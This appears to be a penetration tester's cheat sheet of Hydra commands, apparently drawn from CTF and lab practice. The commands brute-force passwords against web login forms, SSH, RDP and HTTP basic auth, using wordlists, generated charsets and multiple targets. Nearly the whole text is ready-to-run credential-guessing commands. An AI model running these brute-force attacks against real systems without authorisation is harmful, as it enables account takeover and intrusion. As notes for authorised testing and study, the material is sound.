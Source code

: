 [[Passwords]]
##### TLS
Specify port if you use https: `-s 443`
and specify scheme: `https-post-form`

##### Hydra with Burpsuite
```
tail /etc/proxychain.conf
http 127.0.0.1:8080
```

```bash
proxychains -q hydra ...
```

#### POST form:
```bash
hydra -l jose -P /usr/share/wordlists/rockyou.txt lookup.thm http-post-form "/login.php:username=^USER^&password=^PASS^:Wrong" -V
```

```bash
hydra -l milesdyson -P log1.txt $ip http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^:incorrect" -t 20
```
or success condition: :S=302 or :S=Dashboard
failure condition :F=Invalid
```shell
 hydra -L top-usernames-shortlist.txt -P 2023-200_most_used_passwords.txt -f 94.237.53.230 -s 30768 http-post-form "/:username=^USER^&password=^PASS^:F=Invalid credentials"
```
Multiple targets:
```shell
hydra -l root -p toor -M targets.txt ssh
```
#### Bruteforce ssh
```bash
 hydra -L users.txt -P passwords.txt 10.129.131.97 ssh
 ```
#### Generate passwords of charset and from 6 to 8 chars:
```shell
hydra -l administrator -x 6:8:abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789 192.168.1.100 rdp
```
#### Bruteforce basic auth
```shell
hydra -l basic-auth-user -P 2023-200_most_used_passwords.txt 127.0.0.1 http-get / -s 81
```